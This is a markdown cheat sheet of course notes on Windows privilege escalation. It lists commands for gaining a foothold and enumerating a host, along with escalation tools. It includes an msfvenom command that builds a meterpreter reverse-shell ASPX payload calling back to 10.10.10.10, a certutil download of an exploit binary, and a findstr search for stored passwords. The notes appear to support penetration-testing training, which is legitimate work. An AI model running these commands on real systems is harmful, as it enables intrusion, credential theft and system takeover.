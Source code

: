 ```yaml
---
description: '- TCM'
---
```


# Windows Privilege Escalation Course

## **Gaining a Foothold**

```text
nmap -A -T4 -p- IP  

aspx simple Metasploit shell  

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT 4444 -f aspx > exploit.aspx
```

## **Enumeration**

### System Enumeration

```text
getuid  

sysinfo  

systeminfo
```

_Check For patches_

```text
wmic qfe

wmic qfe get Caption,Description, HotFixID, InstalledOn  

wmic logicaldisk get caption,description,providername
```

### User Enumeration

```text
whoami  
whoami /priv  
whoami /groups  
net user  
net user raviraj  
net localgroup
```

### Network Enumeration

```text
ipconfig /all  
arp -a  
route print  
netstat -ano
```

### **Password hunting**

```text
findstr /si password \*.txt \*.ini \*.config
```

### **- A/V and Firewall Enumeration**

\(service control\)

```text
sc query windefend  
sc queryex type= service  

netsh advfirewall firewall dump  
netsh firewall show state  
netsh firewall show config
```

### **Exploring Automated Tools**

#### Executables 

* winPeas.exe
*  Seatbelt.exe\(compile\)
* Watson.exe\(compile\)
* SharpUp.exe\(compile\)

#### PowerShell

* Sherlock.ps1
* PowerUp.ps1
* jaws-enum.ps1

#### Other

* windows-exploit-suggester.py \(local\)
* Explit Suggester \(Metasploit\)

> #### _**pip Install command Tip**_

```text
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```

## **Escalation Path : Kernel exploit**

File Transfer utility in windows

```text
certutil -urlcache -f http://10.10.10.10/MS10-059.exe ms.exe
```

**Escalation Path : Password**

**Escalation Path :** Windows subsystem for Linux

